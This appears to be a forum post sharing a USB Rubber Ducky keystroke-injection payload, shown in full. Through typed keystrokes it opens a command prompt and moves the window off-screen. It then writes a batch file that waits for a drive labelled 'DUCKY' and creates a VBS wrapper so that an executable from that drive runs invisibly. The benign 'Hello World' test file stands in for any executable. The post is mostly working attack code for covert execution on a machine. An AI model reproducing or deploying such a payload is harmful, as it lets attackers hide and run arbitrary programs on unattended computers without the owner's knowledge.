 The following is a payload I have been working on that waits until a drive labeled "DUCKY" is mounted. I have used some of midnightsnake's code in this payload. I have been having some problems with delays so I went a little overboard with the "DELAY 25" codes. The name of the file that is run can be changed to .exe, I am just having it run a batch for testing purposes. The line that says "STRING %myd%\myEXE.bat" is the line that executes the executable.

```
REM Author: overwraith
REM Name: RunEXE.txt
REM Purpose: Run an executable file off of the SD card after it mounts. 
DELAY 4000
REM Using the run command for a broader OS base.
GUI R
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
DELAY 25
REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
DELAY 25
STRING erase /Q DuckyWait.bat
DELAY 25
ENTER
DELAY 25
STRING copy con DuckyWait.bat
DELAY 25
ENTER
DELAY 25
REM DuckyWait.bat
DELAY 25
STRING :while1
DELAY 25
ENTER
DELAY 25
STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%%d
DELAY 25
ENTER
DELAY 25
STRING if Exist %myd% (
DELAY 25
ENTER
DELAY 25
STRING goto break
DELAY 25
ENTER
DELAY 25
STRING )
DELAY 25
ENTER
DELAY 25
STRING timeout /t 30
DELAY 25
ENTER
DELAY 25
STRING goto while1
DELAY 25
ENTER
DELAY 25
STRING :break
DELAY 25
ENTER
DELAY 25
REM Continue script.
DELAY 25
STRING %myd%\myEXE.bat
DELAY 25
ENTER
DELAY 25
CONTROL z
DELAY 25
ENTER
DELAY 25
REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
DELAY 25
REM Delete vbs file if already exists
DELAY 25
STRING erase /Q invis.vbs
DELAY 25
ENTER
DELAY 25
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
DELAY 25
STRING copy con invis.vbs
DELAY 25
ENTER
DELAY 25
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
DELAY 25
ENTER
DELAY 25
CONTROL Z
DELAY 25
ENTER
DELAY 25
REM RUN THE BATCH FILE
DELAY 25
STRING wscript.exe invis.vbs DuckyWait.bat
DELAY 25
ENTER
DELAY 25
STRING EXIT
ENTER
```

The following is the batch file that is run after the "DUCKY" drive has been mounted. Everything is being run invisibly, so you will need to check for the existence of "Message.txt" which will probably be in "C:\Windows\system32".

```
REM Message.txt
echo Hello Wolrd!!!
echo Hello World!!! > Message.txt
```

This payload requires the REPEAT command, so until the online payload generator is online again, or the encoders start supporting the REPEAT command you will be stuck with copy and pasting the repeat command 100 times. I recommend pasting by groups of five or ten. 